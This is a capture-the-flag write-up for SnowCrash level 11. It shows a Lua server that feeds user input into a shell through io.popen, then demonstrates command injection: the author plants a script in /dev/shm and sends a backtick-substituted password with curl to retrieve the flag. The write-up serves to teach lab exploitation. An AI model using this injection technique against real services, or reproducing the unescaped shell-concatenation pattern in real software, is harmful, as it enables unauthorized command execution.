 #SnowCrash Level11

Let's go ahead and cat that level11.lua :
```
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

At first I satrted thinking of a way to decrypt that hash in order to give it as a Password.
But even if I did give it nothing would eventually happen.
Still I followed this idea. And then I realized it was a rabbit hole.
After that, I started executing the code online line by line.
I found out that whatever I pass in the password is gonna be used in the following line :
```
prog = io.popen("echo "...pass..." | sha1sum", "r")
```

It's like an RCE(remote code execution).
/tmp doesn't have the right permissions.
let's look arround for a bit to find a folder that has the write permissions for public.
Using this command :
```
level11@SnowCrash:~$ find / -writable 2>/dev/null | grep -v proc
/dev/vboxuser
/dev/log
/dev/shm
/dev/char/10:56
/dev/char/5:0
/dev/char/5:2
/dev/char/10:200
/dev/char/10:229
/dev/char/1:5
/dev/char/1:9
/dev/char/1:8
/dev/char/1:3
/dev/char/1:7
/dev/stderr
/dev/stdout
/dev/stdin
/dev/fd
/dev/pts/0
/dev/net/tun
/dev/ptmx
/dev/fuse
/dev/tty
/dev/urandom
/dev/random
/dev/full
/dev/zero
/dev/null
/run/acpid.socket
/run/dbus/system_bus_socket
/run/shm
/run/lock
/tmp
/var/crash
/var/lib/php5
/var/lock
/var/tmp
/rofs/dev/urandom
/rofs/var/lock
```

Can't use the first 2 so I used the 3rd one.
```
level11@SnowCrash:~$ cat /dev/shm/EXPLOIT
#!/bin/sh

getflag > /tmp/flaghh
```

Then :
```
level11@SnowCrash:~$ curl 'localhost:5151/?Password=`/*/*/EXPLOIT`'
Password: Erf nope..
level11@SnowCrash:~$ cat /tmp/flaghh
Check flag.Here is your token : 
```